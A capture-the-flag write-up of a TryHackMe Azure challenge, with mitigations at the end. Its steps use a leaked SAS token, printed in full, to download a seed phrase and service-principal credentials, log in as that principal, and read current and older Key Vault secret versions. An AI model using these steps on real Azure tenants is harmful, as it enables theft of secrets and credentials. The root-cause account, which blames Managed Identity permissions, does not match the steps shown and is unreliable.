





# Challenge 9: CryptoCabana

## 1. Challenge Information

| Field | Value |
|---|---|
| **Platform** | TryHackMe |
| **Event** | Hacker Holidays 2026 |
| **Category** | Cloud Security (Azure) |
| **Difficulty** | Medium |
| **Vulnerability Type** | Azure Storage / Azure Key Vault / Managed Identity Trust Relationship |
---

## 2. Reconnaissance & Analysis

On opening the target, the site was a **static website hosted on Azure Storage Static Website**, presenting a simple seed-phrase backup service interface.




The first step was to inspect what the site handed to the client before any interaction, since the room's hint pointed in that direction:

> *"Pull apart what the kiosk hands out for free before you've even clicked anything."*

Using browser **Developer Tools**, the site's JavaScript files were reviewed for anything that could reveal how the front end communicates with Azure services. This inspection surfaced application configuration values, including:

- The **Storage Account** name
- **Container** names
- Azure service endpoints
- References indicating the app relies on a **Managed Identity** to reach cloud resources

This was a strong indicator that the application authenticates to Azure using a Managed Identity rather than static access keys.

The next logical step was to identify what that identity actually has access to, reinforced by a second room hint:

> *"Find out what the kiosk is quietly trusting to reach into storage on its own."*

Further analysis of the JavaScript and the relationships between the referenced resources showed the application also depends on **Azure Key Vault** for secret storage. A third hint suggested the secret itself had been rotated:

> *"If a value looks freshly rotated, ask yourself what it looked like five minutes before that."*

This pointed to **secret rotation** being in play — meaning the *current* value of the secret was not the target, and the flag would instead be found in a **previous version** of that secret.

**Tools used:**
- Browser Developer Tools (View Source, Network tab)
- JavaScript static analysis
- Azure Portal
- Azure Cloud Shell / Azure CLI

**Why this direction:** Once the app's dependency on a Managed Identity to reach Key Vault was confirmed, the natural next question was what permissions that identity actually holds — since excess permissions could allow reading secrets or enumerating their historical versions, matching the hints given.



---

## 3. Root Cause

The vulnerability stems from **misconfigured Managed Identity permissions** within the Azure environment.

The application relied on a Managed Identity to access both Azure Storage and Azure Key Vault, but this identity was granted **more privilege than necessary** for its function. In addition, Azure Key Vault retained **previous versions** of the rotated secret, and read access to those historical versions was not restricted.

As a result, the same identity that legitimately serves the front end could also be used to reach information that should not have been exposed — specifically, an older version of the secret that still contained the flag.

---

## 4. Discovery Process

The vulnerability was found through **analysis rather than direct attack**.

1. The first indicator was Azure-related configuration embedded in JavaScript files, revealing the app's dependency on Azure cloud services.
2. This led to identifying the use of a **Managed Identity**, meaning the application automatically obtains an access token to reach Azure resources without needing static credentials.
3. The services associated with this identity were tested using the **Azure CLI**, which confirmed that Key Vault access allowed listing and reading secrets.
4. Reading the **current** secret value did not reveal the flag.
5. Following the hint about secret rotation, the **previous versions** of the secret were enumerated instead — and reading one of the older versions revealed the flag.


```bash
az account show 
```



---

## 5. Exploitation Steps

**Step 1 — Prepare the Azure Storage SAS Token**

The Azure Storage Account name and Shared Access Signature (SAS) token were extracted from the exposed application configuration and prepared for use with the Azure CLI.

```bash
ACCOUNT='cryptocabanaf5scjagc'
SAS='sv=2022-11-02&ss=b&srt=sco&sp=rl&se=2099-12-31T23:59:59Z&st=2024-01-01T00:00:00Z&spr=https&sig=ZAo05W8KXdSLM9afYCNGogNRV2N5a6aB4dQI3LXz%2Fh0%3D'
```


---

**Step 2 — Enumerate Azure Storage Containers**

The available containers within the storage account were listed.

```bash
az storage container list \
  --account-name "$ACCOUNT" \
  --sas-token "$SAS" \
  --query '[].name' \
  --output table
```

The enumeration revealed the **vault** container.

---

**Step 3 — Enumerate the Vault Container**

The contents of the `vault` container were listed.

```bash
az storage blob list \
  --account-name "$ACCOUNT" \
  --container-name 'vault' \
  --sas-token "$SAS" \
  --query '[].{Name:name,Size:properties.contentLength,Modified:properties.lastModified}' \
  --output table
```

This identified two interesting files:

- `seed_phrase.txt`
- `backup-service-account.json`

---

**Step 4 — Download the Exposed Files**

The seed phrase was downloaded and viewed.

```bash
az storage blob download \
  --account-name "$ACCOUNT" \
  --container-name 'vault' \
  --name 'seed_phrase.txt' \
  --sas-token "$SAS" \
  --file seed_phrase.txt \
  --output none

cat seed_phrase.txt
```

The service account configuration was then downloaded.

```bash
az storage blob download \
  --account-name "$ACCOUNT" \
  --container-name 'vault' \
  --name 'backup-service-account.json' \
  --sas-token "$SAS" \
  --file backup-service-account.json \
  --output none
```

The JSON file was formatted for inspection.

```bash
jq . backup-service-account.json
```

---

**Step 5 — Extract the Azure Service Principal Credentials**

The required authentication values were extracted from the downloaded JSON file.

```bash
CLIENT_ID=$(jq -r '.client_id' backup-service-account.json)
CLIENT_SECRET=$(jq -r '.client_secret' backup-service-account.json)
TENANT_ID=$(jq -r '.tenant_id' backup-service-account.json)
VAULT_NAME=$(jq -r '.key_vault_name' backup-service-account.json)
```

---

**Step 6 — Authenticate as the Service Principal**

Using the recovered credentials, authentication to Azure was performed.

```bash
az login \
  --service-principal \
  --username "$CLIENT_ID" \
  --password "$CLIENT_SECRET" \
  --tenant "$TENANT_ID" \
  --allow-no-subscriptions \
  --output none
```

The active identity was verified.

```bash
az account show 
```


The authenticated identity was confirmed to be a **service principal**.

---

**Step 7 — Enumerate Azure Key Vault Secrets**

The secrets stored in Azure Key Vault were listed.

```bash
az keyvault secret list \
  --vault-name "$VAULT_NAME" \
  --query '[].{Name:name,Enabled:attributes.enabled,Updated:attributes.updated}' \
  --output table
```

The following secrets were identified:

- `key-shard-1`
- `key-shard-2`
- `key-shard-3`
- `master-key`

---

**Step 8 — Retrieve the Current Secret Values**

Each shard was retrieved individually.

```bash
az keyvault secret show \
  --vault-name "$VAULT_NAME" \
  --name 'key-shard-1' \
  --query value \
  --output tsv

az keyvault secret show \
  --vault-name "$VAULT_NAME" \
  --name 'key-shard-2' \
  --query value \
  --output tsv

az keyvault secret show \
  --vault-name "$VAULT_NAME" \
  --name 'key-shard-3' \
  --query value \
  --output tsv
```

The current values did not reveal the flag.

---

**Step 9 — Enumerate Previous Secret Versions**

Since Azure Key Vault maintains version history for secrets, all versions of `key-shard-2` were enumerated.

```bash
az keyvault secret list-versions \
  --vault-name "$VAULT_NAME" \
  --name 'key-shard-2' \
  --query '[].{Version:id,Created:attributes.created,Updated:attributes.updated,Enabled:attributes.enabled}' \
  --output table
```

An older version of the secret was identified.

---

**Step 10 — Retrieve the Previous Secret Version**

The previous version of the secret was requested directly.

```bash
az keyvault secret show \
  --vault-name "$VAULT_NAME" \
  --name 'key-shard-2' \
  --version '3d6492d2c6f74123bc754a9ded22b2a0' \
  --query value \
  --output tsv
```

The previous version contained the flag.

**Screenshot:** *(Retrieving the previous version of `key-shard-2` from Azure Key Vault and revealing the flag.)*


---

## 6. Result

By abusing the permissions granted to the Managed Identity, it was possible to reach Azure Key Vault and read a **previous version** of the target secret.

**Flag:**
```
THM{*****}
```

The objective here was never to obtain a shell or execute commands on a system — this challenge was entirely about abusing Azure permissions to reach secrets stored in Key Vault.

---

## 7. Mitigation

- Apply the **principle of least privilege** to Managed Identities.
- Grant identities only the minimum permissions required for their function.
- Restrict the ability to read **secret versions** to authorized users/services only.
- Delete old secret versions once they are no longer needed.
- Periodically review **Azure RBAC** assignments.
- Monitor Azure Key Vault access using **audit logs**.
- Avoid exposing cloud architecture details or resource names in front-end JavaScript files.

---

## 8. Lessons Learned

- How to analyze Azure Static Website applications.
- How to extract cloud architecture details from JavaScript files.
- How Managed Identity works within Azure.
- How to use the Azure CLI to interact with Azure Key Vault.
- Secret rotation alone is not sufficient if previous versions remain accessible.
- The importance of reviewing Managed Identity permissions and applying least-privilege principles in cloud environments.

---

## 9. References

- [Microsoft Azure – Managed Identity Documentation](https://learn.microsoft.com/en-us/entra/identity/managed-identities-azure-resources/overview)
- [Microsoft Azure – Key Vault Documentation](https://learn.microsoft.com/en-us/azure/key-vault/)
- [Azure CLI – Key Vault Secret Management](https://learn.microsoft.com/en-us/cli/azure/keyvault/secret)
